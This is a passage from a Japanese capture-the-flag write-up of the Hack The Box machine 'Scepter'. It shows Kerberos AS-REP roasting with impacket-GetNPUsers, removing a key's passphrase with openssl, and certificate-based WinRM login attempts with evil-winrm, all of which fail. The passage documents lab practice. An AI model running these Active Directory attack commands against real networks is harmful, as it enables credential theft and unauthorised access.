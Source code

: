 ## ASREP-Roasting
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Scepter]
└─$ impacket-GetNPUsers scepter.htb/ -dc-ip 10.129.105.186 -no-pass -usersfile valid_ad_users -format hashcat -outputfile asrep_hashes.txt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
なんか失敗する。DBに保存されてる名前は違う可能性もある

## 証明書を使う
調べると、SMBやLDAPは証明書を使ってもログインできないらしい。
WinRMは証明書でのログインが可能らしいので、ログインを試みる

### WinRMへのログイン試行
パスワードが求められるので、nopasswordとうつ
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Scepter]
└─$ sudo openssl rsa -in baker.key -out baker_nopass.key
Enter pass phrase for baker.key:
writing RSA key
```

WinRMのログインに使うが、ログインできない
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Scepter]
└─$ sudo evil-winrm -i 10.129.105.186 -c baker.crt -k baker_nopass.key -S
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                          
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                     
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError                                                                                                
                                        
Error: Exiting with code 1

```
他の.crtと.keyも使って試すが、ログインできない,LDAPSも同様
### 証明書の中身を見てみる
